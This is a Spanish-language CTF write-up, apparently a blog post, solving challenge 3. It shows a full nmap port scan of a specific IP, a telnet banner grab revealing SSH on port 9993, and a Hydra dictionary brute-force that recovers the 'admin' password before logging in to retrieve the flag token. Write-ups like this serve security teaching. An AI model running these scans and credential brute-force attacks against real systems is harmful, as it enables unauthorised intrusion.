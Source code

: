 ```yaml
---
layout: post
title:  Reto 3 Hacking CTF ... Flag del puerto 9993/tcp
---
```


Bien, nos vamos a la búsqueda de un tercer flag y nos fijaremos por seguir un orden secuencial, en el siguiente puerto abierto descubierto por nmap:  **9993/tcp**

Recordamos con un extracto del escaneo :

``` markdown
#nmap -p- --open -v -Pn 82.165.37.232 -oG initScan
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-03 19:21 CET
Initiating Parallel DNS resolution of 1 host. at 19:21
Completed Parallel DNS resolution of 1 host. at 19:21, 0.03s elapsed
Initiating SYN Stealth Scan at 19:21
Scanning s21356626.onlinehome-server.info (82.165.37.232) [65535 ports]
Discovered open port 9999/tcp on 82.165.37.232
Discovered open port 9994/tcp on 82.165.37.232
Discovered open port 9991/tcp on 82.165.37.232
Discovered open port 9997/tcp on 82.165.37.232
......

**Discovered open port 9993/tcp on 82.165.37.232**
Discovered open port 9996/tcp on 82.165.37.232
Discovered open port 2222/tcp on 82.165.37.232
Completed SYN Stealth Scan at 9:22, 98.31s elapsed (65535 total ports)
Nmap scan report for s21356626.onlinehome-server.info (82.165.37.232)
Host is up (0.22s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE
2222/tcp  open  EtherNetIP-1
9991/tcp  open  issa
9992/tcp  open  issc
9993/tcp  open  palace-2

```

La definición del servicio *palace-2* que corre sobre el puerto 9993/tcp ,reconocido por nmap no nos dice nada. Lanzo una conexión telnet al puerto 993/TCP para ver cómo me responde y .... 

``` 
root@ip-172-31-29-174:/home/ubuntu# telnet 82.165.37.232 9993
Trying 82.165.37.232...
Connected to 82.165.37.232.
Escape character is '^]'.
SSH-2.0-OpenSSH_7.7

```

¡Mira! : Nos ofrece una conexion SSH .
Así pues el servicio 9993/tcp, concretamente está a la escucha para ofrecer un servidor **SSH-2.0-OpenSSH_7.7** , pero se ha intentado ofuscar el servicio de conexión segura sustituyéndolo por el 443/tcp habitual:

Vale pues intentaremos acceder. Por fuerza bruta  y empleando una herramienta de descubrimiento de credenciales de acceso sobre servicios en red como Hydra, comprobando claves de diccionario cuyo origen es el listado de claves **nmap.lst** (obviamente de nmap), y concretamente sobre servidor el servidor SSH. No conocemos ninguna credencial de usuario ni password, pero vamos a intentar descubrir la contraseña tomando como prueba el usuario clásico y habitual, **admin**.... y (manda narices), tras varios minutoas,  tenemos **éxito** :

```markdown

┌─[✗]─[root@parrot-virtual]─[/usr/share/wordlists]
└──╼ #hydra -l admin -P nmap.lst ssh://82.165.37.232:9993 -v -I
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-12 20:03:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5010 login tries (l:1/p:5010), ~314 tries per task
[DATA] attacking ssh://82.165.37.232:9993/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@82.165.37.232:9993
[INFO] Successful, password authentication is supported by ssh://82.165.37.232:9993
[ERROR] could not connect to target port 9993: Socket error: disconnected
..........
[VERBOSE] Retrying connection for child 9
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 4834 to do in 00:28h, 16 active
[ERROR] could not connect to target port 9993: Socket error: disconnected
...........
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 11
[ERROR] could not connect to target port 9993: Socket error: disconnected
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 11
  `[9993][ssh] host: 82.165.37.232   login: admin   password: letmein`
[STATUS] attack finished for 82.165.37.232 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-12 20:05:42
```

Para ver la imagen gráfica de la operación observamos la captura original:

<img src="{{ site.baseurl }}/public/Reto3_ssh.png">

```

root@ip-172-31-29-174:/home/ubuntu# ssh -p 9993 admin@82.165.37.232
############################################################
#                                                          #
#                                                          #
# Acceso denegado. Solo el usuario <admin> puede conectar. #
#                                                          #
#                                                          #
############################################################
admin@82.165.37.232's password: 
Token 3: 8842130e8deeee7f821e77e14d69cb98
Connection to 82.165.37.232 closed.

```

>Token 3: 8842130e8deeee7f821e77e14d69cb98
